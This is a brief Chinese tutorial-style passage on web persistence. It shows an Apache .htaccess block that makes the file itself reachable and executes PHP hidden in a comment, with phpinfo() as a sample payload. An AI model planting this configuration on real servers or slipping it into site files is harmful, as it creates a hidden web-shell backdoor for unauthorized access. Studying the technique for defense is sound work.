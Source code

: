 



### .htaccess本身
默认情况下是无法访问.htaccess文件的，需要修改访问的权限
```php
<Files ~ "^.ht">
      Require all granted
      Order allow,deny
      Allow from all
  </Files>
  SetHandler application/x-httpd-php
  # <?php phpinfo();?>
  # 注释内就是需要执行的php代码
```
![image.png](./Web_权限维持.assets/2023_05_19_15_14_37_xufDKmIP.png)



